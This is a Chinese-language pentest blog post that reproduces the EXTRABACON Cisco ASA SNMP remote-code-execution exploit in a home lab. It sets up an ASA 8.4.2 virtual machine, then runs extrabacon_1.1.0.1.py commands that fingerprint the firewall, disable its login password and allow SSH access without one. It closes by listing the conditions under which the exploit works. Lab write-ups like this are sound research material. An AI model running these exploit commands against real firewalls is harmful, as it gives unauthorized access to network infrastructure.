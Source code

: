 ```yaml
---
layout:     post
title:      Cisco SNMP RCE漏洞复现
author:     wooy0ung
tags: 		cisco snmp exploit
category:  	pentest
---
```



### 0x00 利用环境

攻击机：192.168.2.63		Mac OSX 10.12.5

靶机：192.168.2.10		Cisco ASA 8.42

主机: 192.168.2.142		Windows 10 Pro

利用脚本：\eqgrp-free-file\Firewall\EXPLOITS\EXBA\extrabacon_1.1.0.1.py
<!-- more -->


### 0x01 启动ASA虚拟机

VMware Workstation导入ASA-8.4.2虚拟机，修改虚拟网络编辑器桥接物理网卡，虚拟机网络设置桥接物理网络。

![](/assets/img/pentest/2017-06-15-cisco-snmp-rce/0x00.png)


![](/assets/img/pentest/2017-06-15-cisco-snmp-rce/0x01.png)


串行端口的命名管道修改为\\.\pipe\asa_com

![](/assets/img/pentest/2017-06-15-cisco-snmp-rce/0x02.png)

安装named pipe tcp proxy，按下图配置

![](/assets/img/pentest/2017-06-15-cisco-snmp-rce/0x03.png)

安装SecureCRT，新建Session

![](/assets/img/pentest/2017-06-15-cisco-snmp-rce/0x04.png)

打开ASA虚拟机电源，登入系统(用户名：netemu 密码：netemu)
```
ciscoasa> en
password:******
ciscoasa# show run
```
![](/assets/img/pentest/2017-06-15-cisco-snmp-rce/0x05.png)


### 0x02 配置ASA网络设置

配置网卡、IP

```
ciscoasa# configure terminal
ciscoasa(config)# interface GigabitEthernet0
ciscoasa(config-if)# ip address 192.168.2.10 255.255.255.0	# 配置该网卡IP为192.168.2.10
ciscoasa(config-if)# no shut
ciscoasa(config-if)# nameif inside
```

配置http/https管理方式

```
ciscoasa# configure terminal 
ciscoasa(config)# http server enable 
ciscoasa(config)# http 192.168.2.0 255.255.255.0 inside
```

使用浏览器访问https://192.168.2.10，在弹出页面安装ASDM，登入ASDM(用户名：netemu 密码：netemu)

![](/assets/img/pentest/2017-06-15-cisco-snmp-rce/0x06.png)

![](/assets/img/pentest/2017-06-15-cisco-snmp-rce/0x07.png)

ssh管理配置

```
ciscoasa# configure terminal 
ciscoasa(config)# crypto key generate rsa modulus 1024
INFO: The name for the keys will be: <Default-RSA-Key>
Keypair generation process begin. Please wait...
ciscoasa(config)# write memory
ciscoasa(config)# ssh 192.168.2.10 255.255.255.0 inside
ciscoasa(config)# aaa authentication ssh console LOCAL
```

telnet管理配置
```
ciscoasa# configure terminal 
ciscoasa(config)# telnet 192.168.2.10 255.255.255.0 inside
```

开启snmp-server
```
ciscoasa# configure terminal 
ciscoasa(config)# snmp-server host inside 192.168.2.20 community public
```


### 0x03 测试链路连接

确认主机到ASA链路正常

![](/assets/img/pentest/2017-06-15-cisco-snmp-rce/0x08.png)

确认主机到攻击机正常

![](/assets/img/pentest/2017-06-15-cisco-snmp-rce/0x09.png)

确认攻击机到ASA正常

![](/assets/img/pentest/2017-06-15-cisco-snmp-rce/0x0a.png)

确认ASA到攻击机正常

![](/assets/img/pentest/2017-06-15-cisco-snmp-rce/0x0b.png)

确认能通过ssh管理ASA
![](/assets/img/pentest/2017-06-15-cisco-snmp-rce/0x0c.png)


### 0x04 漏洞复现

ASA信息搜集，得到系统版本号、登陆名
```
python extrabacon_1.1.0.1.py info -t 192.168.2.10 -c public
```

![](/assets/img/pentest/2017-06-15-cisco-snmp-rce/0x0d.png)

ASA版本号是8.42，存在漏洞，下面disable登入密码

```
python extrabacon_1.1.0.1.py exec -k vZwDQA -t 192.168.2.10 -c public --mode pass-disable
```

![](/assets/img/pentest/2017-06-15-cisco-snmp-rce/0x0e.png)

成功登入系统(登陆名：ciscoasa)

```
ssh -p22 -o KexAlgorithms=+diffie-hellman-group1-sha1 ciscoasa@192.168.2.10
```

![](/assets/img/pentest/2017-06-15-cisco-snmp-rce/0x0f.png)

enable登入密码，已登陆状态能够保持，新机器登陆再次需要密码

```
python extrabacon_1.1.0.1.py exec -k vZwDQA -t 192.168.2.10 -c public --mode pass-enable
```

![](/assets/img/pentest/2017-06-15-cisco-snmp-rce/0x10.png)


### 0x05 漏洞利用条件

1.目标防火墙开启22(ssh)或23(telnet)管理方式

2.目标配置了snmp服务。并且snmp配置中的Host Access Entry IP地址和Community字符串能够获得或者已知。

3.目标版本在8.X-8.4.4之间。
